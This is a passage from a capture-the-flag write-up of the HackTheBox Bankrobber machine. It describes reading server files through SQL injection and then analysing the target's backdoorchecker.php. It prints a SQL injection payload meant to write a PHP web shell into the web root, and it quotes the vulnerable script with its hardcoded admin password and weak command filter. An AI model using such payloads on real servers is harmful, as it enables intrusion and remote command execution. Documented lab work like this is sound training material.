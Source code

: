 
We are able to read files! This file also configures the root directory to the web server, which should be at `C:/xampp/apache`. To verify this, I try to pull a file that I know is present in the root directory like `notes.txt`:

![verify-29](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/Bankrobber/img/verify-29.png)


Here it is! 


From here, I tried to write a PHP web-shell payload into a file in the root directory of the web server with a payload like this: `5' UNION SELECT 1,'<? system($_GET[\'c\']); ?>',2,3 INTO OUTFILE 'C:/xampp/htdocs/htb.php';--` Unfortunately, this didn't work. 


Instead, I decided to shift gears, and focus on the second feature in the admin panel. Now that we know we can read files, and we know where the root of the web server is located, we can read the contents of the `backdoorchecker.php` script and analyze it. 


The script reads as such:

```php
include('../link.php');
include('auth.php');

$username = base64_decode(urldecode($_COOKIE['username']));
$password = base64_decode(urldecode($_COOKIE['password']));
$bad 	  = array('$(','&');
$good 	  = "ls";

if(strtolower(substr(PHP_OS,0,3)) == "win"){
	$good = "dir";
}

if($username == "admin" && $password == "Hopelessromantic"){
	if(isset($_POST['cmd'])){
		// FILTER ESCAPE CHARS
		foreach($bad as $char){
			if(strpos($_POST['cmd'],$char) !== false){
				die("You're not allowed to do that.");
			}
		}
		// CHECK IF THE FIRST 2 CHARS ARE LS
		if(substr($_POST['cmd'], 0,strlen($good)) != $good){
			die("It's only allowed to use the $good command");
		}

```